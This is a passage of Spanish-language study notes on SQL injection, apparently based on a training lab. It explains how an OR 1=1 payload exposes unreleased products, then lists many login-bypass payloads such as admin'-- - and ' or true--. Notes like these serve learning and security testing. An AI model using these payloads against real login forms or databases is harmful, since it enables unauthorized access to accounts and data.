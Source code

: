 Entonces en la consulta anterior estamos solicitando la categoria **gifts** pero estamos comentando la opcion de **AND released = 1** de modo que podemos ver los productos released o no.

Otro payload que tambien funciona:

```sql
Gifts'+OR+1=1--
```

dejando la consulta asi:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

La consulta modificada devolverá todos los elementos en los que la categoría sea gifts o 1 es igual a 1. Dado `1=1` que siempre es verdadera, la consulta devolverá todos los elementos.

## AUTHENTICATION BYPASS (SUBVERTING QUERY LOGIC)

Los siguientes payloads se utilizan comunmente cuando nos encontramos ante un login y queremos evadirlo, pueden ser colocados en el campo de usuario y/o contraseña.

Payloads:

```bash
#ingresar como admin
admin'-- -
admin' or 1=1-- - 

#ingresar como otro usuario
tom'-- -
tom' or 1=1-- -

#otros payloads
'-'
' '
'&'
'^'
'*'
' or 1=1 limit 1 -- -
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
'-||0'
"-||0"
"-"
" "
"&"
"^"
"*"
'--'
"--"
'--' / "--"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
```